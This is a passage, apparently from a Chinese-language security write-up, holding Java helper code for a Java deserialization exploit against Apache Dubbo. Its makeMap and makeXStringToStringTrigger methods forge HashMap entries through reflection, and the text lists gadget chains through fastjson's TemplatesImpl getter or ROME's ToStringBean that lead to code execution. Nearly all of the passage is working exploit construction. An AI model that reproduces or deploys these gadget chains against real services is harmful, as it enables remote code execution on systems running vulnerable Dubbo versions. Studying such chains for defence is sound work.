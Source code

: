 ```java
            return out.toByteArray();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    public static HashMap<Object, Object> makeMap (Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        Utils.setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        Utils.setFieldValue(s, "table", tbl);
        return s;
    }

    public static Object makeXStringToStringTrigger(Object o) throws Exception {
        XString x = new XString("HEYO");
        return Utils.makeMap(new HotSwappableTargetSource(o), new HotSwappableTargetSource(x));
    }
}
```

payload用dubbo低版本自带的fastjson，如下链：

```java
HashMap.put
HashMap.putVal
HotSwappableTargetSource.equals
XString.equals
JSON.toString
JSON.toJSONString
ASMSerializer_1_TemplatesImpl.write(fastjson动态ASM)触发getter
```

用ROME链也OK，反正套hashMap.put的壳子能触发都可以

```
HashMap.put
HashMap.putVal
HotSwappableTargetSource.equals
XString.equals
ToStringBean.toString
```
